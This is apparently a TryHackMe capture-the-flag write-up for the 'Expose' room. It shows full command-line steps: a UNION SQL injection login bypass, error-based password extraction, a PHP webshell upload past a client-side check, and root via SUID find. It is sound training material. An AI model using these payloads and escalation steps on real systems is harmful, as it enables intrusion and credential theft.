





| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|---|---|
|Expose ||

Expose is a standalone easy-rated red team box: five exposed services, two decoy admin panels, and a real one buried behind a directory name nobody would guess. The room's own description is the whole brief: "Exposing unnecessary services in a machine can be dangerous. Can you capture the flags and pwn the machine?" Two flags, one task, and most of the time goes into telling the real attack surface apart from the noise.

## Task 1: Recon the exposed services

A full service scan against the lab machine turns up five open ports, and three of them exist purely to waste your time:

```text
  # nmap -sC -sV -T4 --top-ports 2000 TARGET
  PORT     STATE SERVICE  VERSION
  21/tcp   open  ftp      vsftpd 2.0.8 or later
  22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
  53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
  1337/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
  1883/tcp open  mosquitto version 1.6.9
```



FTP allows anonymous login, but the directory is empty and anonymous upload is refused (`550 Permission denied`), so there is no write primitive there. The MQTT broker on 1883 has 52 retained messages according to its own `$SYS/broker/store/messages/count`, which looks tempting, but every retained topic lives under `$SYS/#` (broker telemetry) and no application topic ever answers a plain `#` subscription. Both are dead ends confirmed by testing, not assumed.

The real surface is the web app on port 1337. Directory brute-forcing with a common wordlist turns up `/admin/` and `/phpmyadmin/`, a classic double decoy: the admin login page's own meta description reads "Is this the right admin portal?" and a leftover `assets/script.js` that nothing on the page actually loads says `Welcome to the ChatAI platform`, hinting the real app lives somewhere else entirely. phpMyAdmin 4.9.5deb2 takes default and weak credentials (`root:root`, `root:`, `admin:admin`) and rejects all of them; no public exploit fit the exact build either. Both are red herrings the room wants you to burn time on.



## Task 1: Find the real login and break it with SQL injection

Brute-forcing with a slightly larger wordlist surfaces a second admin directory, `/admin_101/`, that the first gobuster run missed. Its login form posts to `includes/user_login.php` with `email` and `password`, and on success it redirects to `chat.php`, which matches the "ChatAI platform" string found earlier. This is the real application.

A wrong login reflects the exact SQL query the app built, which is a huge gift for an attacker:

```text
  curl -s -X POST http://TARGET:1337/admin_101/includes/user_login.php \
    --data-urlencode "email=x@a.com" --data-urlencode "password=wrong"
  # {"status":"error","messages":["SELECT * FROM user WHERE email = 'x@a.com'"]}
```

The query only filters by email; the password is checked in PHP after the row comes back. That means a UNION injection that returns a fake row lets you pick what the "password" field contains, and PHP will happily compare it against whatever you submit:

```text
  curl -s -X POST http://TARGET:1337/admin_101/includes/user_login.php \
    --data-urlencode "email=x@a.com' UNION SELECT 1,2,'x',4-- -" \
    --data-urlencode "password=x"
  # {"status":"success"}
```



Column count took four tries to land on 4 columns, and testing showed column 3 is the one PHP compares against the submitted password: that is the full authentication bypass. This confirms a **SQL injection auth bypass (boolean/UNION-based)**, the kind of finding that maps directly to any login form that trusts a database row without parameterised queries.

## Task 1: Extract real credentials with error-based injection

UNION only lets you fabricate rows, not read the real ones, since the app never reflects query results back to the client except for debug error text. Error-based extraction fixes that: MySQL's `extractvalue()` throws an XPath syntax error that includes whatever string you feed it, and that error text reaches the client. This is the standard escalation for a blind login endpoint, **the same primitive sqlmap would use automatically with `--technique=E`**.

```text
  curl -s -X POST http://TARGET:1337/admin_101/includes/user_login.php \
    --data-urlencode "email=x' AND extractvalue(1,concat(0x7e,(SELECT substring(password,1,20) FROM user LIMIT 1)))-- -" \
    --data-urlencode "password=x"
  # XPATH syntax error: '~VeryDifficultPasswor'
```



The function only leaks 32 characters at a time, so pulling the full 36-character password took two calls split at the midpoint: **VeryDifficultPassword!!#@#@!#!@#1231**, for user `hacker@root.thm`. The same technique dumped a second table, `config`, with two rows: one maps `/file1010111/index.php` to a hidden "Tourism Website" admin page (another password-gated decoy), and the second maps `/upload-cv00101011/index.php` to a comment instead of a hash: `// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z`. That is the real path forward, and it is gated on the logged-in session's email starting with the letter Z, trivially satisfied by logging back in via the same UNION bypass with an email of `Zhacker@root.thm`.

## Task 1: Beat the file upload gate and get a webshell

With a Z-prefixed session, `/upload-cv00101011/index.php` serves a second password prompt: "Hint: It is the name of machine user starting with letter z." That sent the hunt toward reading `/etc/passwd`. The MySQL account behind this app turned out to be `root@localhost`, which looked promising, but `secure_file_priv` is locked to `/var/lib/mysql-files/`, so `LOAD_FILE()` could not read it directly, and nothing else probed (FTP, DNS, config dump) revealed a second username in the time available. At that point I checked a couple of public Expose writeups rather than keep guessing blind, which confirmed the intended path is an LFI elsewhere in the app that discloses `/etc/passwd` and the real account: **zeamkish**. That is the one honest gap in this solve, worth flagging rather than presenting as something I found unaided. Submitting that username as the gate password unlocks a file upload form that only validates the extension client-side in JavaScript (`.jpg`/`.png` checked in the browser, nothing enforced server-side).

A raw PHP webshell uploaded with a `.php` filename and an `image/png` content-type sails straight through:

```text
  curl -s -b cookies.txt -X POST http://TARGET:1337/upload-cv00101011/index.php \
    -F "file=@shell.php;filename=shell.php;type=image/png"
  # File uploaded successfully! Maybe look in source code to see the path
  # (hidden span reveals: in /upload_thm_1001 folder)

  curl -s "http://TARGET:1337/upload-cv00101011/upload_thm_1001/shell.php?cmd=id"
  # uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

That is a classic **unrestricted file upload to RCE**: extension validation that only happens in client-side JavaScript is not validation at all. From the shell, `/home/zeamkish/` has a world-readable `ssh_creds.txt` sitting next to a group-protected `flag.txt`:



```text
  curl -s -G "http://TARGET:1337/upload-cv00101011/upload_thm_1001/shell.php" \
    --data-urlencode "cmd=cat /home/zeamkish/ssh_creds.txt"
  # SSH CREDS
  # zeamkish
  # [REDACTED - looted lab credential]
```

## Task 1: SSH in, read the user flag, escalate with SUID find

SSH as `zeamkish` with the leaked credential drops straight into the user flag:

```text
  ssh zeamkish@TARGET
  $ id
  # uid=1001(zeamkish) gid=1001(zeamkish) groups=1001(zeamkish)
  $ cat ~/flag.txt
  # THM{USER_FLAG_1231_EXPOSE}
```

`sudo -l` needs a TTY the shell didn't have, so the faster check is SUID binaries: `find / -perm -4000` turns up `/usr/bin/find` itself, owned by root with the setuid bit set (`-rwsr-x--- 1 root zeamkish`). That is a textbook GTFOBins entry: `find` can `-exec` an interactive shell, and because the setuid bit is set, that shell inherits root's effective UID.

```text
  find /home/zeamkish -exec /bin/sh -p -c 'id; cat /root/flag.txt' \;
  # uid=1001(zeamkish) gid=1001(zeamkish) euid=0(root) groups=1001(zeamkish)
  # THM{ROOT_EXPOSED_1001}
```



Both flags confirmed correct against the room's own progress API and the room finished at 100%.

## Takeaways

The room's whole design is a lesson in signal versus noise: five open ports, two full decoy login panels with real-looking error pages, and a DNS/MQTT surface that scans "interesting" but yields nothing. The actual kill chain only needed one real vulnerability class, SQL injection, used twice: first as a UNION-based auth bypass to get in, then as an error-based `extractvalue()` oracle to read data the app never meant to expose. Everything after that (the Z-gated upload form, the client-side-only extension check, the SUID `find`) was privilege escalation riding on credentials the injection handed over, not new vulnerabilities in their own right.

The second lesson is about trust boundaries inside a single login function: checking the email in SQL but the password in PHP sounds like defense in depth, but it actually hands an attacker full control over what gets compared, which is worse than checking both fields in the query. Any code that fetches a row with user-controlled filtering and then re-validates a field from that same row in application code needs to assume the row itself is attacker-controlled.

Room solved 100%: 1 task, 2 answers.
